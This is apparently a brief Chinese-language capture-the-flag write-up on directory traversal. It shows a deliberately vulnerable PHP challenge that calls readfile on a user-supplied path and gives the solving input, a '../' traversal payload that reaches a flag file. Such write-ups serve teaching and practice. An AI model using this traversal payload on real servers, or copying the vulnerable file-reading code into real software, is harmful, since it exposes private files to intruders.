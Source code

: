 # 知识点
### 目录穿越
[https://blog.csdn.net/angry_program/article/details/107855078](https://blog.csdn.net/angry_program/article/details/107855078)
# 思路
```php
<?php

error_reporting(0);
highlight_file(__FILE__);
if(isset($_GET['f'])){
    $f = $_GET['f'];
    if(stripos($f, 'ctfshow')>0){
        echo readfile($f);
    }
}
```
```php
?f=../ctfshow/../../../../var/www/html/flag.php
```
